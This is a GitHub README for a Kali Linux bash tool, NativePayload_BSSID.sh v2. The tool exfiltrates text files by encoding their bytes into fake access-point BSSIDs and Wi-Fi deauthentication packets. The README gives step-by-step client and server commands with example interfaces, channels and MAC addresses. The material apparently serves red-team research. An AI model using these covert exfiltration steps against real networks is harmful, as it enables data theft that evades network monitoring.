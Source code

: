 # NativePayload_BSSID.sh v2 

Exfiltration via Wireless DeAuthentication Packets from Client to Server on AIR (without user-pass or Wifi Connection & very fast)

Note: this code tested in kali linux systems (only).

Article/Pdf and New video will Publish here soon...

Video[1] , NativePayload_BSSID.sh v2 (step by step) : https://www.youtube.com/watch?v=rg-O4RKt9OA

as you can see in this "Picture 1", with this switch "help" you can see Help information : ./NativePayload_BSSID.sh help 

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20help.png)
Picture 1:

# NativePayload_BSSID.sh (help):  

   NativePayload_BSSID.sh v1 Syntax: 

    Step1 (Client Side): 
    Syntax            :./NativePayload_BSSID.sh -f [text-file] [Fake-AP-Name] [MonitorMode-Interface]
    Example [System A]:./NativePayload_BSSID.sh -f mytext.txt myfakeAP Wlan3mon

    Step2 (Server Side):
    Syntax            :./NativePayload_BSSID.sh -s [Wifi-Interface] [Exfil-Dump-file]
    Example [System B]:./NativePayload_BSSID.sh -s wlan0 ExfilDumped.txt

    Description: with Step1 (system A) you will inject bytes for (mytext.txt) file to BSSID for Fake AP in this case (myfakeAP) ,
    with Step2 on (system B) you can have this text file via Scanning Fake AP on AIR by Wireless traffic (Using iwlist tool)
    Note : before step1 you should make Monitor-Mode Interface (WlanXmon) by this command for example : airmon-ng start wlan3 
    --------------------------------------------------------
   NativePayload_BSSID.sh v2 Syntax I: 

    Step1 (Server Side):
    Syntax            :./NativePayload_BSSID.sh -deauthdumps [FakeAP-ESSID] [MonitorMode-Interface] [Wifi-Channel] [FakeAP-BSSID]
    Example [System B]:./NativePayload_BSSID.sh -deauthdumps MyFakeAP wlan1mon 7 00:12:32:44:64:19

    Step2 (Client Side):
    Syntax            :./NativePayload_BSSID.sh -exfildeauth [text-file] [Target-FakeAP-BSSID] [Wifi-Interface] [Wifi-Channel] [dbg]/[fast]/[faster]
    Example [System A]:./NativePayload_BSSID.sh -exfildeauth mypayload.txt 00:12:32:44:64:19 wlan2 7 faster

    Description: with Step1 (system B) you will have Fake AP via wlanXmon interface also DeAuth Packets will Dump via Tcpdump
    tool in this step in server side , 
    Note: before step1 you should make WlanXmon Monitor-Mode Interface by this command : airmon-ng start wlanX 
    with Step2 your Client (system A) will send that text file to (Target/system B) via DeAuth Packets On AIR Directly...
    note: via Step2 your Payload Injected to Client.BSSIDs in DeAuth Packets.
    --------------------------------------------------------
   NativePayload_BSSID.sh v2 Syntax II:
   
    (Server/Client Side):
    Syntax :./NativePayload_BSSID.sh -exfilserver
    Description: for more information please read PDF/Article on Github... (soon)
    --------------------------------------------------------

--------------------------------------------------------------------------------------

# NativePayload_BSSID.sh v2 
# and DeAuth Method (step by step): 

Step 1 :
with switch "-deauthdumps" you will have Fake AP via wlanXmon interface also DeAuth Packets will Dump via Tcpdump
tool in this step in server side.

Note: before step1 you should make WlanXmon Monitor-Mode Interface by this command : airmon-ng start wlanX 
 
    Step1 (Server Side):
    Example [System B]:./NativePayload_BSSID.sh -deauthdumps MyFakeAP wlan1mon 7 00:12:32:44:64:19


![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step1.png)
Picture 2:

Step 2 :
with Step2 your Client (system A) will send that text file to (Target/system B) via DeAuth Packets On AIR Directly...
note: via Step2 your Payload Injected to Client.BSSIDs in DeAuth Packets.

    Step2 (Client Side):
    Example [System A]:./NativePayload_BSSID.sh -exfildeauth mypayload.txt 00:12:32:44:64:19 wlan2 7 faster

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step2.png)
Picture 3:

as you can see in "Picture 4" after 5 seconds that text file "3.txt" Exfiltrated from client to server on AIR ,(very simple).

![](https://github.com/DamonMohammadbagher/NativePayload_BSSID/blob/master/Chapter%209%20-%20Transferring%20Backdoor%20Payload%20by%20Wireless%20Traffic%20-BSSID/NativePayload_BSSIDv2/NativePayload_BSSID%20Step4.png)
Picture 4:

Article and Pdf File will Publish here soon...

Video STEP BY STEP : https://www.youtube.com/watch?v=rg-O4RKt9OA

